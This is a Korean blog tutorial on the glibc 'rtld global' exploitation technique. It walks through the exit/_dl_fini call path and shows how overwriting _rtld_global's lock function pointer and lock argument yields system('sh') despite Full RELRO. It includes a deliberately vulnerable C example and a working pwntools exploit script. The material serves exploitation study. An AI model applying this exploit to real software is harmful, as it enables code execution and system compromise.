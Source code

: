 ```yaml
---
tistoryBlogName: k0n9
tistoryTitle: rtld global
tistoryVisibility: "3"
tistoryCategory: "1136867"
tistorySkipModal: true
tistoryPostId: "41"
tistoryPostUrl: https://k0n9.tistory.com/41
---
```

이는 exit함수로 종료될 경우에 Full RELRO 보호기법이 적용되어있을 때 사용 가능한 공격이다.

Full RELRO 보호기법이 적용되어 있기 때문에 .fini_array overwrite는 사용할 수 없다.
우선 main이 종료되는 과정을 보자.

#### main이 종료되는 과정
main 함수가 리턴된 후, exit 함수를 호출한다.
![](https://i.imgur.com/TtQEl77.png)
여기서 인자값이 0인것을 알 수 있는데 이는 흔히 c언어에서 main의 마지막에 return 0 ; 를 하는데 이 0이 exit함수의 파라미터로 들어가 것이다.

![](https://i.imgur.com/5yTT34B.png)
exit함수 내부에서는 \_\_run_exit_handlers를 호출한다.

![](https://i.imgur.com/ShhrShj.png)

계속 따라가다 보면 \_dl_fini를 호출한다.

\_\_run_exit_handlers 함수는 exit_function 구조체 멤버 변수인 flavor 값에 따라서 함수를 호출하게 되는데, 기본 상태에서는 로더 라이브러리 내부에 존재하는 \_dl_fini 함수를 호출한다고 한다.

![](https://i.imgur.com/JkursFc.png)
\_dl_fini 중간에 .fini_array를 참조하고 호출한다.

함수 호출 후 \_dl_fini()로 돌아온 후 \_dl_fini()가 리턴되고 다시 \_run_exit_handlers()루틴으로 돌아오면 \__GI_exit()를 호출한다.

![](https://i.imgur.com/BISf4Jk.png)
![](https://i.imgur.com/Mudh32M.png)
결과적으로 syscall을 하면서 프로세스가 완전히 종료된다.


위 과정에서 볼 수 있듯이 \_GI_exit 함수는 \_run_exit_handlers 함수를 호출한다. \_run_exit_handlers는 ld.so 에 존재하는 \_dl_fini 함수를 호출하게 된다.

다음은 \_dl_fini 함수 코드의 일부이다.
```c
void
_dl_fini (void)
{
  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
    {
      /* Protect against concurrent loads and unloads.  */
      __rtld_lock_lock_recursive (GL(dl_load_lock));
      unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
      /* No need to do anything for empty namespaces or those used for
	 auditing DSOs.  */
      if (nloaded == 0
	__rtld_lock_unlock_recursive (GL(dl_load_lock));
```

\_dl_fini 함수는 \_dl_load_lock을 인자로 \__rtld_lock_lock_recursive 함수를 호출한다. 해당 함수와 인자는 _rtld_global 구조체의 멤버이다.

\_rtld_global 구조체가 위치한 영역에는 쓰기 권한이 있기 때문에 \_rtld_lock_lock_recursive 함수 포인터와 \_dl_load_lock의 값을 덮어쓸 수 있다면 system(”sh”)를 호출할 수 있다.

\_rtld_global 구조체를 확인해보자
![](https://i.imgur.com/ld3juT2.png)

\_dl_rtld_lock_recursive 함수포인터를 확인할 수 있다.
![](https://i.imgur.com/jWAU3Bo.png)

### 예제
```C
// gcc -o dlfini dlfini.c -no-pie -z relro -z now
#include <stdio.h>
#include <stdlib.h>
int main()
{
    long long addr;
    long long data;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    printf("stdout: %lp\n",stdout);
    printf("addr: ");
    scanf("%ld",&addr);
    printf("data: ");
    scanf("%ld",&data);
    *(long long *)addr = data;
    exit(0);
}
```
해당 예제는 임의 주소 쓰기 취약점이 있다. 그런데 한 번의 실행만으로 \_rtld_lock_lock_recursive 함수 포인터와 \_dl_load_lock 인자를 동시에 조작할 수 없다. 그래서 우선 \_rtld_lock_lock_recursive 함수 포인터의 값을 start 함수의 주소로 바꿔 exit 함수가 호출될 때 프로그램의 시작 주소로 다시 돌아가게 만든다. 그리고 그러면 임의 주소 쓰기를 계속 할 수 있다.

\_dl_load_lock 에 sh 문자열을, \_rtld_lock_lock_recursive 함수 포인터에는 system 함수의 주소를 덮어써 system("sh")를 호출한다.

참고로 \_dl_load_lock에 sh 문자열 자체를 입력하는거다.(주소 아님) system은 \_dl_load_lock을 참조해서 문자열을 가져오는거니 sh문자열을 넣어야한다.

```python
from pwn import *
  
p = process("./dlfini")
  
start = 0x400580
std_off = 0x3ec760
system_off = 0x4f420
recur_off = 0x61bf60
lock_off = 0x61b968
binsh_off = 0x1b3d88
  
p.recvuntil("stdout: 0x")
stdout = int(p.recv(12), 16)
libc_base = stdout-std_off
system = libc_base + system_off
recur = libc_base + recur_off
lock = libc_base + lock_off
binsh = libc_base + binsh_off
  
p.sendlineafter(b"addr: ", str(recur))
p.sendlineafter(b"data: ", str(start))
  
p.sendlineafter(b"addr: ", str(lock))
p.sendlineafter(b"data: ", str(0x6873))
  
p.sendlineafter(b"addr: ", str(recur))
p.sendlineafter(b"data: ", str(system))
  
p.interactive()
```
![](https://i.imgur.com/9775mfi.png)
